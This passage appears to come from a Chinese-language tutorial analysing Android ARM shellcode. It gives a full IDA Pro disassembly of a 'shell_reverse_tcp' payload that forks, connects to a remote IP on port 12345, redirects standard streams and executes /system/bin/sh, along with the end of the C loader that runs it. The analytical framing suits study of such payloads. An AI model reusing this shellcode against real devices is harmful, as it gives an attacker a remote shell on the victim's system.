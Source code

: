 ```
loader();
return0;
}

```

中`payload[]`数组中的数据是从exploit的`shell_reverse_tcp`中提取的。这种加载方式在Android 4.1.x可以运行，高版本Android增加了安全缓解技术，会报错，但不影响分析代码。用IDA Pro加载编译程序，可以看到shell_reverse_tcp的反汇编代码如下：

```
.data:00002000 02 70 A0 E3                             MOV             R7, #2
.data:00002004 00 0000 EF                             SVC             0       ; __fork
.data:00002008 00 00 50 E3                             CMP             R0, #0
.data:0000200C 02 00 00 0A                             BEQ             loc_201C
.data:00002010 00 00 A0 E3                             MOV             R0, #0
.data:00002014 01 70 A0 E3                             MOV             R7, #1
.data:00002018 00 0000 EF                             SVC             0       ; _exit_thread
.data:0000201Cloc_201C                                ; CODE XREF: .data:0000200Cj
.data:0000201C 42 70 A0 E3                             MOV             R7, #0x42
.data:00002020 00 0000 EF                             SVC             0       ; setsid
.data:00002024 02 00 A0 E3                             MOV             R0, #2
.data:00002028 01 10 A0 E3                             MOV             R1, #1
.data:0000202C 05 20 81 E2                             ADD             R2, R1, #5
.data:00002030 8C 70 A0 E3 8D 70 87 E2                 MOV             R7, #0x119
.data:00002038 00 0000 EF                             SVC             0       ; socket
.data:0000203C 00 60 A0 E1                             MOV             R6, R0
.data:00002040 6C 10 8F E2                             ADR             R1, loc_20B4 ; structsockaddr_in
.data:00002044 10 20 A0 E3                             MOV             R2, #0x10
.data:00002048 8D 70 A0 E3 8E 70 87 E2                 MOV             R7, #0x11B
.data:00002050 00 0000 EF                             SVC             0       ; connect
.data:00002054 06 00 A0 E1                             MOV             R0, R6
.data:00002058 00 10 A0 E3                             MOV             R1, #0
.data:0000205C 3F 70 A0 E3                             MOV             R7, #0x3F
.data:00002060 00 0000 EF                             SVC             0       ; dup2
.data:00002064 06 00 A0 E1                             MOV             R0, R6
.data:00002068 01 10 A0 E3                             MOV             R1, #1
.data:0000206C 3F 70 A0 E3                             MOV             R7, #0x3F
.data:00002070 00 0000 EF                             SVC             0       ; dup2
.data:00002074 06 00 A0 E1                             MOV             R0, R6
.data:00002078 02 10 A0 E3                             MOV             R1, #2
.data:0000207C 3F 70 A0 E3                             MOV             R7, #0x3F
.data:00002080 00 0000 EF                             SVC             0       ; dup2
.data:00002084 30 00 8F E2                             ADR             R0, aSystemBinSh ; "/system/bin/sh"
.data:00002088 04 40 24 E0                             EOR             R4, R4, R4
.data:0000208C 10 00 2D E9                             STMFD           SP!, {R4}
.data:00002090 38 30 8F E2    ADR   R3, aPathSbinVendor ; "PATH=/sbin:/vendor/bin:/system/sbin:/sy"...
.data:00002094 08 00 2D E9                             STMFD           SP!, {R3}
.data:00002098 0D 20 A0 E1                             MOV             R2, SP
.data:0000209C 10 00 2D E9                             STMFD           SP!, {R4}
.data:000020A0 24 40 8F E2                             ADR             R4, aSh ; "sh"
.data:000020A4 10 00 2D E9                             STMFD           SP!, {R4}
.data:000020A8 0D 10 A0 E1                             MOV             R1, SP
.data:000020AC 0B 70 A0 E3                             MOV             R7, #0xB
.data:000020B0 00 0000 EF                             SVC             0       ; execve
.data:000020B4  loc_20B4                       ; DATA XREF: .data:00002040o
.data:000020B4 02 00 30 39   ;structsockaddr_in: <family+port+host>, port: 0x3039(12345)
.data:000020B8xx xxxxxx; ip address
.data:000020BC 2F 73 79 73 74 65 6D 2F+aSystemBinSh    DCB "/system/bin/sh",0  ; DATA XREF: .data:00002084o
.data:000020BC 62 69 6E 2F 73 68 00                                            ; .data:loc_20B4o
.data:000020CB 00                                      DCB    0
```